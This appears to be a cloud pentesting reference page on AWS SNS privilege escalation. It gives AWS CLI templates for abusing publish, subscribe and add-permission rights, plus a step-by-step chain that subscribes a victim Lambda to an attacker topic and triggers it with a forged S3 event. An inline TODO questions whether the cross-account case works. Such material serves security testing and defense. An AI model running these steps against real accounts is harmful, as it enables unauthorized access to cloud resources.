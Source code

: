 # AWS - SNS Privesc

## SNS

For more information check:

[[../../aws-services/aws-sns-enum.md]]

### `sns:Publish`

An attacker could send malicious or unwanted messages to the SNS topic, potentially causing data corruption, triggering unintended actions, or exhausting resources.

```bash
aws sns publish --topic-arn <value> --message <value>
```

**Potential Impact**: Vulnerability exploitation, Data corruption, unintended actions, or resource exhaustion.

### `sns:Subscribe`

An attacker could subscribe or to an SNS topic, potentially gaining unauthorized access to messages or disrupting the normal functioning of applications relying on the topic.

```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```

**Potential Impact**: Unauthorized access to messages (sensitive info), service disruption for applications relying on the affected topic.

### `sns:AddPermission`

An attacker could grant unauthorized users or services access to an SNS topic, potentially getting further permissions.

```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```

**Potential Impact**: Unauthorized access to the topic, message exposure, or topic manipulation by unauthorized users or services, disruption of normal functioning for applications relying on the topic.

### Invoke a Lambda by abusing wildcard SNS permission (no `SourceArn`)

If a Lambda function resource-based policy allows `sns.amazonaws.com` to invoke it without restricting the source topic (`SourceArn`), any SNS topic (even in another account) can subscribe and trigger the function. An attacker with basic SNS permissions can coerce the Lambda to execute under its IAM role with attacker-controlled input.

> [!TIP]
> TODO: Can this really be done cross-account?

Preconditions
- Victim Lambda policy contains a statement like below, with NO `SourceArn` condition:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {"Service": "sns.amazonaws.com"},
      "Action": "lambda:InvokeFunction"
      // No Condition/SourceArn restriction here
    }
  ]
}
```

Abuse steps (same or cross-account)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
  --region us-east-1 \
  --topic-arn "$ATTACKER_TOPIC_ARN" \
  --protocol lambda \
  --notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
  --region us-east-1 \
  --topic-arn "$ATTACKER_TOPIC_ARN" \
  --message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```

**Potential Impact**: The victim Lambda executes with its IAM role, processing attacker-controlled input. This can be abused to make the function perform sensitive actions (e.g., write to S3, access secrets, modify resources) depending on its permissions.

